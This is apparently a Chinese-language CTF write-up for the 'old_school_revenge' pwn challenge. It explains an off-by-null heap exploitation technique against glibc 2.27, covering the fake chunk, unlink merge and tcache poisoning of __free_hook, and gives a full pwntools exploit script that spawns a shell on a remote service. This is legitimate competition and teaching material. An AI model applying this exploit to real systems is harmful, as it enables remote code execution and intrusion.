 # 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **old_school_revenge**

> challenge name: `old_school`
>
> file: `old_school_revenge`, libc-2.27.so
>
> .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/kokifish thanks liwl
>
> 是这场比赛另一题`old_school`的进阶版，`old_school`是Off-By-One，这题是Off-By-Null

Off-By-Null相比于Off-By-One的区别：只能修改下一chunk的size域的最低1字节为0，而不能修改为任意数字。所以在Off-By-One中使用的增大unsorted bin中chunk的size的方法不再适用。

采用的方法：在一个chunk c0中，伪造一个chunk头部（改size(inuse=1)，fw, bk指向自身，改下一chunk的`prev_size`），触发OffByNull把后一chunk的inuse改为0；然后把后面一个chunk释放到unsorted bin中，会触发unlink的merge，将fake chunk合并，即把fake chunk顺进unsorted bin中；然后再把fake chunk拿回来，再把fake chunk释放入tcache，就可以通过c0改tcache中chunk的fw了

```python
c0(0x30)  # 在这里构造一个fake chunk，fw bk指向自身，同时改c1的prev_size
c1(0x100) # 后续利用c0触发OffByNull，改inuse位为0，释放时将fake chunk合并，一同放入unsorted bin
```

重点在于，将一个chunk free进unsorted bin时，触发chunk的合并，把一个原本还在使用中的chunk的一部分带入unsorted bin中。

# Theory and Security Check

- free chunk时，如果该chunk无法进入tcache或者fastbin时（单链），用下一chunk的`prev_inuse`判断该chunk是否空闲，如果`prev_inuse=0`表示该chunk空闲，则free一个空闲chunk，出错

```python
c0
c1 # prev_inuse=1, size=0x20, 
c2 # prev_inuse=0, prev_size=0x20 # 以下案例将讨论 free(c2) c2进入unsorted bin的状况
c3
c4
```

free(c2)时，如果该chunk要进入unsorted bin，则：

1. 向前合并：判断`prev_inuse`是否为0，如果为0，则依据`prev_size`判断前一chunk c1的起始位置，将c1合并，c2 c1一起放入unsorted bin。如果`c1.prev_inuse=0`，则依据`c1.prev_size`尝试合并c0。
2. 向后合并：依据`c4.prev_inuse`判断c3是否空闲，如果c3空闲则尝试向后合并。

安全检查：

- free(c2)时，可能会检查c3.size是否合法
- free(c2)时，若`c2.prev_inuse=0`，依据`c2.prev_size`找到c1起始地址后，判断`c1.size`是否与`c2.prev_size`相等
- free(c2) 尝试合并c1时，在unlink过程中，会将c1从双链表上解下，则需要满足(e.g.)`c1->fw->bk == c1` && `c1->bk->fw==c1`（这是举个最简单的例子），这里c1指`c1.prev_size`的地址



# exp

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "123.60.63.39"
PORT = 49154
DEBUG = 1


if DEBUG:
    p = process(["./ld.so", "./old_school_revenge"], env={"LD_PRELOAD": "./libc-2.27.so"})
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[1].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{m0lWJAzDB1vzxMn9PlMQXkPvEmGAdZzB}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0xC0E)  #
        cmd += "set $a=%d\n" % (base + 0x202160)  # arrPtr
        debug(cmd)


def new(idx, size):
    sla("Your choice: ", str(1))
    sla("Index: ", str(idx))  # max: = 0x1F = 31
    sla("Size: ", str(size))  # max: = 0x100
    ru("Done!")


def edit(idx, content):
    sla("Your choice: ", str(2))
    sla("Index: ", str(idx))
    sa("Content: ", content)


def show(idx):
    sla("Your choice: ", str(3))
    sla("Index: ", str(idx))
    ru("Content: ")
    return ru("1. New note")[:-12]


def delete(idx):
    sla("Your choice: ", str(4))
    sla("Index: ", str(idx))


# Step-1: full tcache(0x100), prepare a chunk and a fake chunk that will deleted and merged to unsorted bin
new(0, 0x28)  # 0x30 # fake c0'(0x20) here
new(1, 0xf8)  # 0x100
for i in range(7):  # 0x100
    new(i + 10, 0xf8)  # 10, 11... 16
for i in range(7):
    delete(i + 10)  # 10, 11... 16

# Step-2: leak heap base addr
new(10, 0xf8)  # get a chunk in tcache
new(9, 0x18)  # avoid top chunk merge

data = show(10)  # get heap base addr
temp = u64(data.ljust(8, b"\x00"))
heap_base = temp - 0x555555f8c890 + 0x0000555555f8c000
print("data:", data, data.hex())
print("heap_base:", heap_base, hex(heap_base), hex(temp))
delete(10)  # del chunk10 to tcache head chunk

# Step-3: edit fake chunk: size, fw, bk; prev_size, OffByNull.
c1fake_addr = heap_base + 0x260  # 0x555556a66960 - 0x555556a66000
# edit fake chunk # cover prev_size=0x20 # cover size=0x101 with 0x100, means prev chunk NOT in use
edit(0, p64(0xdeadbeef) + p64(0x21) + p64(c1fake_addr) + p64(c1fake_addr) + p64(0x20))
dd()
# Step-4: delete a chunk to unsorted bin, trigger unlink, merge fake chunk
delete(1)  # to unsorted bin # trigger unlink, merge fake chunk(0x20)
# tcache(0x100)cnt=7: c10.... # unsorted bin: size=0x120

# Step-5: get fake chunk from unsorted bin, delete to tcache
new(20, 0x58)  # get fake chunk from unsorted bin
data = show(20)  # leak libc addr
temp = u64(data.ljust(8, b"\x00"))
libc.address = temp - 0x7f443a8f4db0 + 0x00007f443a509000
print("data:", data, data.hex())
print("libc.address:", hex(libc.address), hex(temp))
new(21, 0x58)
new(29, 0x18)  # avoid top chunk merge
delete(21)  # to tcache(0x60)
delete(20)  # delete fake chunk to tcache(0x60) # tcache(0x60)cnt=2: chunk20(fake chunk), chunk 21

# Step-6: edit fake chunk in tcache, then tcache poisoning
edit(0, p64(0x110) + p64(0x61) + p64(libc.symbols["__free_hook"]) + b'\n')  # cover fw with &__free_hook

new(20, 0x58)  # get chunk from tcache(0x60) # tcache(0x60)cnt=1: &__free_hook
edit(20, "/bin/sh\x00\n")
new(21, 0x58)  # get &__free_hook from tcache(0x60)
edit(21, p64(libc.symbols["system"]) + b'\n')  # cover __free_hook(NULL) with &system
delete(20)  # get shell: system("/bin/sh\x00\n")

p.interactive()

```

多调多试简称调试



- 利用chunk0编辑完fake chunk，触发OffByNull之后，chunk0的内容如下（由于有PIE ASLR，具体数值仅供参考）：

```assembly
gef➤  x /30xg 0x555556385260 -0x10 # chunk0 addr=0x555556385260
0x555556385250: 0x0000000000000000      0x0000000000000031 # chunk0 size=0x31
0x555556385260: 0x00000000deadbeef      0x0000000000000021 # fake chunk: prev_size, size(inuse=1)
0x555556385270: 0x0000555556385260      0x0000555556385260 # fake chunk: fw, bk; point to -0x10
0x555556385280: 0x0000000000000020      0x0000000000000100 # chunk1: prev_size=0x20, size(inuse=0)
0x555556385290: 0x0000000000000000      0x0000000000000000 ......
```

